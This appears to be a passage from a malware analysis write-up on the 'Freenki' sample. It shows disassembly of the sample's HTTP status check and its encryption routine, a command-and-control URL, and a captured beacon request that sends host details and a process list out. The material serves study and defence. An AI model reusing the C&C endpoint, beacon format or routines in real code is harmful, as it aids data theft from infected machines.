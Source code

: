 ```nasm
00E81867  |.- 0F85 6FFFFFFF     JNE 00E817DC
00E8186D  |.  399D 10AFFFFF     CMP DWORD PTR SS:[EBP+FFFFAF10],EBX
00E81873  |.- 0F84 BE000000     JE 00E81937
00E81879  |.  399D 0CAFFFFF     CMP DWORD PTR SS:[EBP+FFFFAF0C],EBX
00E8187F  |.- 0F84 B2000000     JE 00E81937
```

Where `0x00E87F09` is a function to check for status code. I find this by looking first in the 2nd argument of `HttpQueryInfoW`, the type of query. It was querying the status of the request, stored in 3rd argument, and if it is not 200, 0xC8, it will return. Then it will check if we have any data to send, if not, it will return.

Now we can monitor the in and out of the function through arguments, we know which server they connect to, data it sends, data it could have received according to the later use of the output buffer. We can find the C&C server too, debug through the `InternetOpenW`, the host address and the address we connect to is `old.jrchina.com/btob_asiana/udel_confirm.php`. At this point, I was silly to keep trying debugging, without finding a better way, we can setup a fake server, and control all request and response then everything will be clear. A sample request 0x31 after parsing:

```
URL: POST:/btob_asiana/udel_confirm.php
HEADERS: { host: 'old.jrchina.com',
  'x-real-ip': '42.119.12.160',
  'x-forwarded-for': '42.119.12.160',
  connection: 'close',
  'content-length': '309',
  'user-agent':
   'Mozilla/4.0 (compatible; MSIE 7.0; Windows NT 6.1; Trident/6.0; SLCC2; .NET CLR 2.0.50727; .NET CLR 3.5.30729; .NET CLR 3.0.30729; Media Center PC 6.0; .NET4.0C; Tablet PC 2.0; .NET4.0E; InfoPath.3)',
  'cache-control': 'no-cache' }

DATA:
1 02004C4F4F5
Efiens/EFIENS-PC/win-6.1.7601-1/0.1
MAC:02004C4F4F50:0800270DE546:/EFIENS-PC/innotek GmbH/VirtualBox:Freenki response
ollydbg.exe
freenki.exe
```

The actual data sent was encrypted, and the two function for encrypting and decrypting are:

```nasm
00131120  /$  33C0          XOR EAX,EAX                              ; freenki.decrypt(guessed void)
00131122  |.  56            PUSH ESI
00131123  |.  8BF1          MOV ESI,ECX
00131125  |.  85D2          TEST EDX,EDX
00131127  |.- 7E 68         JLE SHORT 00131191
00131129  |.  83FA 20       CMP EDX,20
0013112C  |.- 72 4C         JB SHORT 0013117A
0013112E  |.  8BCA          MOV ECX,EDX
00131130  |.  57            PUSH EDI
00131131  |.  81E1 1F000080 AND ECX,8000001F
00131137  |.- 79 05         JNS SHORT 0013113E
00131139  |.  49            DEC ECX
0013113A  |.  83C9 E0       OR ECX,FFFFFFE0
0013113D  |.  41            INC ECX
0013113E  |>  0F280D 80FB14 MOVAPS XMM1,DQWORD PTR DS:[14FB80]       ; FLOAT 7.053345e-30, 7.053345e-30, 7.053345e-30, 7.053345e-30
00131145  |.  8BFA          MOV EDI,EDX
00131147  |.  0F2815 90FB14 MOVAPS XMM2,DQWORD PTR DS:[14FB90]       ; FLOAT 5.459277e-19, 5.459277e-19, 5.459277e-19, 5.459277e-19
0013114E  |.  2BF9          SUB EDI,ECX
00131150  |>  0F100406      /MOVUPS XMM0,DQWORD PTR DS:[EAX+ESI]
00131154  |.  660FF8C1      |PSUBB XMM0,XMM1
```